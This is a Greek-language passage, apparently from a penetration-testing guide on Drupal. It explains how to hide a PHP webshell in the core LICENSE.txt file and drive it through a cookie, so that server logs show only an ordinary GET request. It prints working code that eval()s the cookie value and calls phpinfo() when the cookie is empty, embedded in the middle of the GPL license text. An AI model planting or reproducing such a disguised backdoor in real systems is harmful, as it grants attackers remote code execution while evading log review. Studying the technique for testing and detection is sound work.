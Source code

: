 Επειδή μόλις το Webshell (που θα ονομάσουμε LICENSE.txt) τοποθετηθεί στον Web server, μπορούμε να μεταδώσουμε τις εντολές μας μέσω `$_COOKIE` και στα αρχεία καταγραφής του Web server, αυτό θα εμφανίζεται ως ένα νόμιμο GET αίτημα σε ένα αρχείο κειμένου.

Γιατί να ονομάσουμε το Webshell μας LICENSE.txt;

Απλά επειδή αν πάρουμε το παρακάτω αρχείο, για παράδειγμα [core/LICENSE.txt](https://github.com/drupal/drupal/blob/11.x/core/LICENSE.txt) (το οποίο είναι ήδη παρόν στον πυρήνα του Drupal), έχουμε ένα αρχείο 339 γραμμών και 17.6 KB σε μέγεθος, το οποίο είναι τέλειο για να προσθέσουμε ένα μικρό απόσπασμα κώδικα PHP στη μέση (καθώς το αρχείο είναι αρκετά μεγάλο).

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αρχείο: Διορθωμένο LICENSE.txt
```txt

...

this License, you may choose any version ever published by the Free Software
Foundation.

<?php

# We inject our payload into the cookies so that in the logs of the compromised
# server it shows up as having been requested via the GET method, in order to
# avoid raising suspicions.
if (isset($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
if (!empty($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
eval($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"]);
} else {
phpinfo();
}
}

?>

10. If you wish to incorporate parts of the Program into other free
programs whose distribution conditions are different, write to the author

...
```